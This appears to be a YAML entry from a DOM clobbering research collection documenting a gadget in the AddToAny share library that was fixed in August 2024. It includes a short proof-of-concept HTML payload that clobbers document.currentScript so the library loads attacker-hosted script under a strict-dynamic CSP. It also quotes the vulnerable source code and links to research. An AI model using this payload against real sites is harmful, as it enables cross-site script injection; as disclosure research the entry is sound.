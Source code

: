 ```yaml
---
description: AddToAny gets people to the right destination to share or save your content, whether it's in a native app or on the web.
gadgets:
  ≤21/08/2024:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - name-attr
      - src-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [AddToAny](https://www.addtoany.com/) library was using the `document.currentScript` property to load additional scripts.
        code: |
          <!-- user input -->
          <img src="https://addtoany@[current-host]/assets/xss/index.js?" name="currentScript">

          <script async src="/assets/libs/addtoany/20240821/page.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://web.archive.org/web/20240821021100/https://static.addtoany.com/menu/page.js">https://web.archive.org/web/20240821021100/https://static.addtoany.com/menu/page.js</a>

      ```javascript
      _ = (d = o.currentScript) && d.src ? d.src : "",
      e = d && !d.async && !d.defer,
      
      // [...]

      a = (t = n.static_server) ? t + "/" : "https://static.addtoany.com/menu/",
      p = _ && -1 !== _.split("/")[2].indexOf("addtoany"),
      l = (p = (l = !t && p ? _ : a).match(/^[^?#]+\//)) ? p[0] : l,
      
      // [...]

      var e = l + (t ? "" : "modules/");
      c(e + "core" + g + ".js", !0);
      ```
    links:
      - https://web.archive.org/web/20240821021100/https://static.addtoany.com/menu/page.js#before-fix
      - https://web.archive.org/web/20240821021327/https://static.addtoany.com/menu/page.js#after-fix
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

